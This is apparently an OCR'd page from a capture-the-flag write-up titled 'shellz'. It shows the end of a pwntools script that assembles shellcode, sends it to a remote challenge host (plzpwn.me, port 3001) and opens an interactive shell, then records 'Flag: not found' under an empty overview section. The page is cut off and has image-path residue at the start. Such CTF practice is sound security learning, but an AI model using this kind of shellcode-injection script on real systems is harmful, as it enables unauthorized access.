 ```
ret         
"""

  # pwnlib.shellcraft.i386.linux.readn(1000, 'eax', 'ebx')

rom = ROM_MY
#print(rom)
rom = asm(rom)

def io_beg():
	return remote('plzpwn.me', 3001)
	#process("./simple")
	#remote('plzpwn.me', 2000)
	#process('./jump')
	
def io_rdy(x):
	return x.recvuntil("enter your shellcode:".encode(ENCODING), timeout = 3).decode(ENCODING)

def main():
	print("**********WELCOME**********")
	stage = 0
	fin = 0
	
	while(fin < 1):
		if(stage == 0):
			io = io_beg()						
			io_rdy(io)
						
			print("1. Deploying ")
			io.send_raw(rom) # win
			print("2. Fire")
			io.sendline(b'') # fire!		
			
			io.interactive()
			
			stage = stage + 1
		else:
			print("Weird flex, exiting")
			fin = 1

if __name__ == '__main__':
	main()

```
-

shellz
===========================

Flag: not found

General overview of problems faced
-------------------------------------
